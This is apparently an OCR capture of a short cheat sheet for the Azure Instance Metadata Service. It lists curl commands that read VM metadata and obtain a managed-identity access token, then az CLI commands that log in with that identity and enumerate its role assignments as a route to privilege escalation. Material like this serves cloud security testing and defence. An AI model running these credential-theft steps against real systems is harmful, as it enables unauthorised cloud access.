 # IMDS REST API endpoint 

### Obtain information about the instance platform as well as request access tokens if the instance is a managed identity.

 - curl -H Metadata:true --noproxy "*" "http://169.254.169.254/metadata/instance?apiversion=2020-09-01" | jq (Review the instance metadata to obtain more information about how the VM is configured in Azure)

 - curl -H Metadata:true -s 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fmanagement.azure.com%2F' | jq (Check whether the VM has an associated managed identity using the following command. If one is used, an access_token will be returned and this could present an opportunity to escalate privileges)

 - az login --identity (Log in with the VM's managed identity) 

 - appid=$(az resource list --query "[?name=='LinuxVM'].identity.principalId" --output tsv) (make a request for the LinuxVM resource information and cast it to the appid variable.)

 - az role assignment list --assignee $appid --include-groups --include-inherited --query '[].{username:principalName, role:roleDefinitionName, usertype:principalType, scope:scope}' (Using the appid variable, we will list the role assignments for the subscription, specifically querying for the principal name, role name, type, and scope)




   
